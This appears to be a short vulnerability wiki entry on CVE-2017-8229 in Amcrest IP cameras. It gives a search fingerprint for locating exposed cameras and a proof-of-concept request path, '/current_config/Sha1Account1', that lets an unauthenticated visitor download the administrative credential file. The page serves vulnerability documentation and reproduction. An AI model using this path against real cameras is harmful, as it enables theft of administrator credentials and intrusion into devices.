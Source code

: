 # Amcrest IP Camera Web Sha1Account1 Account Password Leakage Vulnerability CVE-2017-8229

## Vulnerability Description

Amcrest IP Camera Web is a wireless IP camera from Amcrest, which allows unauthenticated attackers to download administrative credentials.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Amcrest Technologies. Amcrest IP Camera Web all</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"Amcrest"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645547044365-31c4c6ae-c9cd-4c34-88ce-1c31810a0ed8.png)

Verify POC

```javascript
/current_config/Sha1Account1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645547183330-ef08c3d4-1cb6-4e93-a70f-8ec772da2798.png)